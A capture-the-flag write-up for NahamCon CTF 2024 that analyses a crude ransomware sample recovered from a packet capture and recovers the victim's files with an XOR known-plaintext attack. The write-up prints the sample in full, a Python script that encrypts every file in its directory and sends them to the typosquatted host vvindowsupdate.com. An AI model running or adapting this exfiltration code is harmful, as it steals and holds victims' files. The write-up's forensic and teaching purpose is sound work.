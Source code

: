  # 1337 Malware - NahamCon CTF 2024

 ## Challenge Description

 ```We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.```

## Enumeration

We are given a PCAP file that will contain all the information needed to solve the challenge. Let's open it up in Wireshark.

![](./Attachments/wireshark.png)

Quickly looking through the capture, we have a majority of general TCP traffic as well as two HTTP packets. Let's looks closer at the HTTP request and see if there's anything interesting.

![](./Attachments/ransrequest.png)

We see a GET request to `vvindowsupdate.com/rans.py` - looks like the attacker has typosquatted the windowsupdate domain hoping to trick an unsuspecting user into navigating to their domain instead. `rans.py` is interesting so let's see if the response contains the script.

![](./Attachments/ransresponse.png)

Yes! We have the script used to exploit this user in plain text. Let's take a closer look at the payload.

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)
```

The script starts off by importing the modules it needs to function, followed by a key declaration and a comment. It looks like the attacker didn't take his own advice and generated the key using a random 32 byte value. This is probably why the attacker believes his malware is "broken".

We'll remember this for later and move on to the rest of the script.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths
```

Here we have the three functions defined by the attacker to get the files in the current directory, encrypt them, and then send the encrypted version of the files back to his domain over port 1337.

Finally, the script executes these functions.

```python
files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

It appears as though the intention of the attacker was to encrypt and exfiltrate the users files, and then remove the files from the victim's computer, however `os.remove` is commented out.

`get_all_files()` isn't all that interesting, so let's skip that and look closer at `send_encrypted()`.

```python
def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()
```

The attacker was nice enough to name the files as they were exfiltrated by sending the file name to his server, which can be picked up through the network traffic.

To confirm, let's take another look at the PCAP.

![](./Attachments/filename.png)

Yep, they leaked the file names over the network. We can use this to our advantage later.

The encrypt function is going to be the most interesting for us, so let's take a closer look there.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted
```

We can see that the only form of "encryption" in use is an XOR function, which takes the plaintext of the files and XORs each byte with the key. It will be very important to find the key as this will be the only way we are able to recover the encrypted files.

This is where the fact that file names are leaked comes in handy. If we look further at the files that were exfiltrated, we have this list:

- resources.zip
- ecorp.png
- Welcome Aboard.pdf
- id_rsa
- id_rsa.pub

Before we continue, let's talk quickly about XOR and it's viability in ciphertext generation. XOR by itself is not considered cryptographically secure. The exclusive or function is associative and commutative, which means that the order of input values and how they are grouped does not affect the final output. Also, XOR has a unique property that makes it possible to inverse input and output, called self-inversion. This is especially useful in cryptanalysis because it means that if you have the ciphertext and some corresponding plaintext, you can derive the key that was used to turn plaintext into ciphertext.

This is known as a known-plaintext attack (KPA). More information can be found [here](https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/).

Knowing this about the malware at hand, we know that if we had some of the plaintext for any of the encrypted files, we could easily derive the key using the XOR function itself.

It might seem like we don't have the plaintext, but we can make a few assumptions about the files that were exfiltrated.

The file formats for .zip, .png, and .pdf all use some form of "magic bytes", or the first few bytes of the file that indicate in what format the data is stored.

- .zip - `0x50 0x4B 0x03 0x04`
- .png - `0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A`
- .pdf - `0x25 0x50 0x44 0x46`

Theoretically we could use these byte strings to derive the key, but remember that we know the key is 32 bytes in length, so these values would only be able to recover the partial key.

That leaves us `id_rsa` and `id_rsa.pub`. Luckily, we know that id_rsa has a standard format. We can generate an openssh private key using `ssh-keygen` to confirm, but we know that every openssh private key starts with this string: `-----BEGIN OPENSSH PRIVATE KEY-----`.

Yes! This string is 36 characters in length which means it is greater than 32 bytes. We should be able to recover the key with this value.

First, we'll write a script that recovers the key using the ciphertext of the id_rsa file recovered from the PCAP and the known plaintext.

```python
from pwn import xor
import os

def recover_key():
    ciphertext = bytes.fromhex("afef7e7da6970900eeab4da38833...b5f55b98fb892d")

    known_plaintext = "-----BEGIN OPENSSH PRIVATE KEY-----".encode()

    blob = xor(ciphertext, known_plaintext)
    key = blob[:32]
    return key
```

This function XORs the ciphertext and known-plaintext and returns a blob of data, from which we can grab the first 32 bytes since we know that this is the beginning of the private key. This is the key that was used to encrypt the victim's files!

From there, we can write a script that iterates through the encrypted files downloaded from wireshark and decrypts them all.

```python
def decrypt(ciphertext, key):
    plaintext = xor(ciphertext, key)
    return plaintext

directory = "/home/astra/nahamconctf/forensics/1337malware"
for file in os.listdir(directory):
    if file.endswith('.enc'):
        with open(os.path.join(directory, file)) as f:
            ciphertext = bytes.fromhex(f.read())
            plaintext = decrypt(ciphertext, key)
            b = open(os.path.join(directory, file).strip(".enc"), "wb")
            b.write(plaintext)
```

Now that we have all the files decrypted, we can sift through them for any important information (like the flag!).

Resources.zip is interesting, let's try and unzip it:

![](./Attachments/resourcezip.png)

It's password protected. Let's see if we can find the password somewhere. Let's look at `Welcome Aboard.pdf` next.

![](./Attachments/welcomeaboard.png)

And we've got the password for the zip! All that's left to do is unzip `resources.zip` and get the flag!